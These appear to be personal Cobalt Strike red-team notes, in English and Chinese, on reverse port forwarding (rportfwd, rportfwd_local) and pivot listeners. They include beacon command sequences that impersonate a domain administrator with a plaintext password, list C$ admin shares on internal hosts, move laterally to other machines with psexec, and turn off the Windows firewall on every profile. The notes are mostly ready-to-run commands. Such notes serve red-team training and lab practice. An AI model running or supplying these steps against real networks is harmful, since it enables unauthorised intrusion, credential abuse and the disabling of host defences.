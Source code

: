 #### Reverse Pivoting

- Tunnel Traffic (Reverse)
  - Make target listen on port and tunnel connection toanother system
  - `rportfwd [listen port][forward host][forward port]`
  - Use `rportfwd stop [listen port] to stop`
- Make sure to account for firewall on target!
  此转发的流量经过路径 Beacon ----> cs teamserver -----> target host

- rportfwd_local

```sh
rportfwd_local 反向端口转发(cs客户端本地)
rportfwd_local [bind port] [forward host] [forward port]
rportfwd_local stop [bind port]

rportfwd 本机端口 目标ip 目标端口
此命令是rportfwd的变体只在流量转发路径上与rportfwd有所不同
此转发的流量经过路径Beacon ----> cs client -----> target host
```

### Pivot Listeners

[Pivot Listeners 当前域控与 CS 服务端不在同一网段内](https://mp.weixin.qq.com/s/KPZYKQNo8stlvr-USvR4kw)

被控主机(POWERDC) 新建 - Pivot Listener

```sh
beacon> make token POWER\administrator waza1234!
beacon> ls \\192.168.58.205\C$
beacon> jump psexec ENGINEER pivot - POWERDC
beacon> jump psexec BILLING pivot - POWERDC
```

比如新建 a1listener, 目前不能直接生成 executale

- 只能命令横向上线
- 或者上线后 spawn 为 a1listener, 再关掉旧的 session

#### Pivot Listeners - 1

- Create a listener that calls home through a Beacon session...`(Asynchronous C2 is OK!)`
  - `[beacon]` -> `Pivoting` -> `Listener`
- Pivot - POWERDC

![](https://s2.loli.net/2023/01/25/Nic4pXOhvb8yrnU.png)

```sh
POWERDC beacon > shell netstat -nao | findstr "4444"
beacon > shell netsh advfirewall set allprofiles state off
beacon > make_token POWER\Administrator waza1234!
beacon > ls \\192.168.50.205\C$
beacon > jump psexec ENGINEER pivot - POWERDC
beacon > jump psexec BILLING pivot - POWERDC
```
